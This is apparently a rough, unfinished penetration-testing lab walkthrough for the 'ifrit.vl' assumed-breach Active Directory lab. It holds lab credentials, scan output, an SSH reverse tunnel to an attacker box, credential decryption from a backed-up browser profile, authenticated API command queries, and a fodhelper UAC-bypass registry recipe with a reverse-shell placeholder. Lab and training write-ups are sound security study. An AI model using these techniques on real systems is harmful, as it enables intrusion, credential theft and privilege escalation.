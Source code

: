 

![](Cover_.png)



### Lab Intro

In this Assumed-Breach Scenario, your main objective is getting domain administrator privileges in the "ifrit.vl" Domain. The company created the following low-privileged user accounts in the "eu-ifrit.vl" domain for you:


```
# Users
Caroline.Hunter
Michelle.Jordan
Wendy.French
Joyce.Johnson
Kathleen.Walker
Tina.Dawson
Gavin.Dixon
Robin.Smith
Marcus.Taylor
Jemma.Smith
Annette.King
Mohammed.Ward
Laura.Robinson
Henry.Jordan
Bernard.Turner
Peter.Nash
Jade.Perry
Barry.Cox
Martin.Marsden
Grace.Dunn

# Password
PenEuIfrit527#
```

You can use these accounts to log into a VDI environment at [https://vdi02.eu-ifrit.vl/RDWeb/](https://vdi02.eu-ifrit.vl/RDWeb/) (172.16.40.225).

Besides reaching the main objective, your secondary goal is to complete the objective without triggering any detection. If you manage to do so, please write a message to xct. Please do not RDP to DEV05, a user is working on a critical project there.


#### Hints & Comments

- Make sure you have good enumeration methodology that includes at least: AD, ADCS, Shares, Ports, Services, Installed Programs, Users on Machines. Good enumeration is key - both here and in real environments.
    
- The 172.16.41.0/24 Subnet is behind a network firewall - you won't be able to reach your own attacker machine on all ports (but on some).
    
- Not everything you see is exploitable - go for the low hanging fruits as you would on real engagements.




### INITIAL_ACCESS



```
Nmap scan report for vdi02.eu-ifrit.vl (172.16.40.225)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
443/tcp  open  https
445/tcp  open  microsoft-ds
593/tcp  open  http-rpc-epmap
3389/tcp open  ms-wbt-server
```

Starting a proxy to reach the internal networks !

```shell
ssh -R 8080 kali@10.8.0.163 -p 22 -N
```

```
└─# proxychains -q crackmapexec smb 172.16.41.1/24
```



![](Read_Access_Share.png)


Here inside home-backup --> We found a vhdx file [ transferring it to the windows vm found some intresting files ]

Copy both files from Jack_Smith -->  Profile folder to the Attacker Box kali !  

 ![](Backup_vhdx.png)




└─# python firepwd.py  

decrypting login/password pairs

 http://git.ifrit.vl :: jack.smith@ifrit.vl :: JigokuNoKaen10



http://172.16.40.150/ --> Login 


└─# proxychains curl -X POST http://dev05.eu-ifrit.vl:13300/api/query -H "Content-Type: application/json" -H "Authorization: Basic $(echo -n 'dev:dev-5381' | base64)"   -d '{"query":"cpu get caption"}' -v


└─# proxychains curl -X POST http://dev05.eu-ifrit.vl:13300/api/query -H "Content-Type: application/json" -H "Authorization: Basic ZGV2OmRldi01Mzgx"   -d '{"query":"cpu get caption"}' -v



https://gitbook.seguranca-informatica.pt/privilege-escalation-privesc/uac-bypass

```
New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value powershell.exe -Force
New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force
cmd -> fodhelper

Spaw anything:
New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value 'your-reverse-shell' -Force
```




